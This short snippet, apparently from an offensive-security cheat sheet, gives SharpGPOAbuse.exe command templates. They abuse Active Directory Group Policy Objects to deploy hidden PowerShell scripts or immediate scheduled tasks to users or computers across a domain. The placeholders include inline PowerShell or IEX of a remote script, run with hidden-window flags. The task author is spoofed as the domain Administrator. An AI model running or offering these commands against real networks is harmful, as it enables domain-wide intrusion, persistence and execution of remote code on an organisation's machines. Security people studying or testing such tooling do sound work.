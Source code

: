 ```
SharpGPOAbuse.exe <--AddUserScript | --AddComputerScript> --ScriptName "GPO_script.ps1" --ScriptContents "powershell.exe -nop -w hidden -c \"<INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>\"" --GPOName "<GPO_NAME>"

# Add a new computer or user immediate task
# For some reason starting the --Arguments with "-nop" make SharpGPOAbuse raise an "Unknown argument error"
SharpGPOAbuse.exe <--AddUserTask | --AddComputerTask> --TaskName "<TASKNAME>" --Author "<DOMAIN>\Admininistrator" --Command "cmd.exe | BINARY_PATH>" --Arguments "<ARGUMENTS | /c powershell.exe -nop -w hidden -c \"<INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>\">" --GPOName "<GPO_NAME>"
```
